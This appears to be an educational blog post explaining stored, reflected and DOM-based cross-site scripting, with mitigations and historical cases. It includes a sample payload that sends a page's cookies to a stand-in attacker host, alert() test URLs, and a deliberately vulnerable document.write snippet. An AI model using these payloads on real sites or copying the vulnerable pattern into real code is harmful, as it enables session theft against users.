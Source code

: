 ```yaml
---
title: "Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation"
date: 2025-07-24
layout: post
tag: [OWASP, Web Security, XSS]
---
```


<div style="max-width: 900px; margin: auto; padding: 20px;">

&nbsp; <!-- Table of Contents -->
&nbsp; <div style="flex: 1; background-color: #f9f9f9; padding: 20px; border-left: 5px solid #007acc; border-radius: 6px;">

&nbsp;   <strong>Table of Contents</strong>

&nbsp;   <ul>
&nbsp;     <li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>
&nbsp;     <li><a href="#types-of-xss">Types of XSS</a>
&nbsp;       <ul>
&nbsp;         <li><a href="#1-stored-xss">1. Stored XSS</a></li>
&nbsp;         <li><a href="#2-reflected-xss">2. Reflected XSS</a></li>
&nbsp;         <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>
&nbsp;       </ul>
&nbsp;     </li>
&nbsp;     <li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>
&nbsp;     <li><a href="#real-world-examples">Real-World Examples</a></li>
&nbsp;     <li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>
&nbsp;     <li><a href="#conclusion">Conclusion</a></li>
&nbsp;     <li><a href="#references">References</a></li>
&nbsp;   </ul>

&nbsp; </div>
</div>

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the [OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.

## Types of XSS

### 1. Stored XSS

**Definition:**  
Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.

**How it works:**
1. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.
2. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.
3. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.

**Example payload:**
```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

**Mitigation:**  
Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).


### 2. Reflected XSS

**Definition:**  
Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.

**How it works:**
1. Attacker crafts a malicious link containing JavaScript code in a parameter.
2. Victim clicks the link and sends a request to the vulnerable application.
3. The application reflects the malicious input in its response, which the browser executes.

**Example payload in URL:**
```
https://example.com/search?q=<script>alert('XSS')</script>
```

**Mitigation:**  
Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.

---

### 3. DOM-Based XSS

**Definition:**  
DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.

**How it works:**
1. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.
2. The vulnerable JavaScript code inserts this data directly into the page without escaping.
3. The browser executes the malicious code.

**Example vulnerable code:**
```javascript
document.write(location.hash);
```

**Example attack URL:**
```
https://example.com/page#<script>alert('XSS')</script>
```

**Mitigation:**  
Avoid dangerous DOM manipulation methods like `document.write()` and `innerHTML` with untrusted data; use safe DOM APIs like `textContent` or `setAttribute()`; sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.

---

## How XSS Attacks Work

1. **Injection:** The attacker injects malicious JavaScript into a vulnerable page.
2. **Execution:** The victim’s browser renders the page and runs the script.
3. **Impact:** The attacker can steal session cookies, perform actions as the user, or spread malware.

---

## Real-World Examples

- **MySpace Samy Worm (2005):** A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.
- **British Airways Breach (2018):** Malicious JavaScript was injected to steal payment details from thousands of customers.

---

## General Mitigation Strategies

- Validate and sanitize all user inputs on both client and server.
- Use context-specific output encoding.
- Enforce a strong Content Security Policy (CSP).
- Avoid unsafe JavaScript functions and DOM manipulation methods.
- Use security features provided by frameworks.
- Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.

---

## Conclusion

XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.

---

## References

- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)

</div>

